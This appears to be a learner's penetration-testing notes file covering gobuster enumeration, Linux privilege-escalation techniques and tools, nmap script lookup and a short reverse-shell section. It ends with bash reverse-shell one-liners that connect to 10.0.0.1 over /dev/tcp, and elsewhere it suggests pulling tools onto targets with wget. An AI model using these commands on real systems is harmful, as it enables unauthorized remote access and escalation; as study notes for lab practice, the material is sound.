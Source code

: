 # Tips
This document is going to contain tips regarding anything that I have learned, things that may help me, tools used, common commands/scripts to use in certain scenarios etc.\


### Gobuster
gobuster dir -u <url> -x <script extensions> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://10.10.14.16 -x sh,php,html,txt,zip,bak-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

### Dirb






## Privilege Escalation

What is privilege escalation? It's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

### Linux Privilege Escalation

https://tryhackme.com/room/linprivesc

Here are some good tools to install and use:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/diego-treitos/linux-smart-enumeration

You can install these on the target machine by by using wget from the /tmp directory....at least thats where I see alot of people installing it to.

#### Kernel Exploits
The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

The Kernel exploit methodology is simple...\
Identify the kernel version\
Search and find an exploit code for the kernel version of the target system\
Run the exploit \ 

Notes: You may need to use SimpleHTTPServer in python to transfer the exploit from your machine to the target machine

#### Sudo
Any user can check its current situation related to root privileges using the 'sudo -l' command. \
https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

#### SUID
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions.



#### Cron Jobs
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges. \

Any user can read the file keeping system-wide cron jobs under /etc/crontab





#### Windows Privilege Escalation




### Searching scripts to use with NMAP

ls -al /user/share/nmap/sripts/ | grep -e "nmap"\
Here is an example of what you can expect to see:
- ![Results!](screenshots/1.png)


### Reverse shell tips/information
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'